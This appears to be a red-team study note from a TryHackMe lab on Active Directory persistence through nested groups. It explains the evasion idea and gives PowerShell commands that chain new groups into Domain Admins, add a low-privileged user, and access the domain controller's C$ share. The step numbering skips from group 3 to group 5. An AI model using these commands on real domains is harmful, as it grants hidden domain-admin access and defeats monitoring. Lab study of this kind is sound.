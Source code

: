 --- ---

==**This technique is incredibly invasive and hard to remove. Even if you have signoff on your red team exercise to perform these techniques, you must take the utmost caution when performing these techniques. In real-world scenarios, the exploitation of most of these techniques would result in a full domain rebuild.**==

<h2>General</h2>

In Active Directory (AD), nested groups refer to the practice of placing one group inside another group, also known as a "parent-child" relationship. This allows for more efficient management of user access to resources and easier delegation of administrative tasks.

Nested groups can be used to hide oneself in domain admin groups by creating a new group, adding oneself to that group, and then adding that group to the domain admin group. By doing this, an attacker can gain access to resources that are restricted to domain admin without being directly a member of the domain admin group, and therefore can evade detection.

For example, an attacker can create a new group called "Delegated Admins" and add their own user account to it. Then the attacker can add the "Delegated Admins" group as a member of the "Domain Admins" group. Now the attacker's user account has the same privileges as a member of the "Domain Admins" group, but it's not directly a member of it, and it's harder to detect.

<h3>Nested Groups</h3>
In many organizations, there are a large number of groups that are members of other groups, known as recursive groups or group nesting. This is used to create a more organized structure in Active Directory (AD). However, this structure also reduces visibility into effective access, making it difficult to understand who has access to what. Additionally, it can make it harder to monitor for changes to privileged groups, as changes to subgroups may not trigger alerts. As an attacker, this can be leveraged to maintain persistence by targeting subgroups that are not being monitored, rather than privileged groups that would raise alerts.

---

<h2>Commands</h2>

Nesting Our Persistence 

- Change all the groupe name as desired (Net group, GROUP_NAME,...)

Let's simulate this type of persistence. In order to simulate the persistence, we will create some of our own groups. Let's start by creating a new base group that we will hide in the People->IT Organisational Unit (OU)
```
PS C:\Users\Administrator.ZA>New-ADGroup -Path "OU=IT,OU=People,DC=ZA,DC=TRYHACKME,DC=LOC" -Name "GROUPE_NAME Net Group 1" -SamAccountName "GROUPE_NAME_nestgroup1" -DisplayName "GROUPE_NAME Nest Group 1" -GroupScope Global -GroupCategory Security
```

Let's now create another group in the People->Sales OU and add our previous group as a member:
```
PS C:\Users\Administrator.ZA>New-ADGroup -Path "OU=SALES,OU=People,DC=ZA,DC=TRYHACKME,DC=LOC" -Name "GROUPE_NAME Net Group 2" -SamAccountName "GROUPE_NAME_nestgroup2" -DisplayName "GROUPE_NAME Nest Group 2" -GroupScope Global -GroupCategory Security 

PS C:\Users\Administrator.ZA>Add-ADGroupMember -Identity "GROUPE_NAME_nestgroup2" -Members "GROUPE_NAME_nestgroup1"
```

We can do this a couple more times, every time adding the previous group as a member
```
PS C:\Users\Administrator.ZA> New-ADGroup -Path "OU=CONSULTING,OU=PEOPLE,DC=ZA,DC=TRYHACKME,DC=LOC" -Name "GROUPE_NAME Net Group 3" -SamAccountName "GROUPE_NAME_nestgroup3" -DisplayName "GROUPE_NAME Nest Group 3" -GroupScope Global -GroupCategory Security 

PS C:\Users\Administrator.ZA> Add-ADGroupMember -Identity "GROUPE_NAME_nestgroup3" -Members "GROUPE_NAME_nestgroup2"
```

With the last group, let's now add that group to the Domain Admins group
```
PS C:\Users\Administrator.ZA>Add-ADGroupMember -Identity "Domain Admins" -Members "GROUPE_NAME_nestgroup5"
```

Add our low-privileged AD user to the first group we created
```
PS C:\Users\Administrator.ZA>Add-ADGroupMember -Identity "GROUPE_NAME_nestgroup1" -Members "<low privileged username>"
```

Low-privileged user should now have privileged access to DC
```
dir \\thmdc.za.tryhackme.loc\c$\
```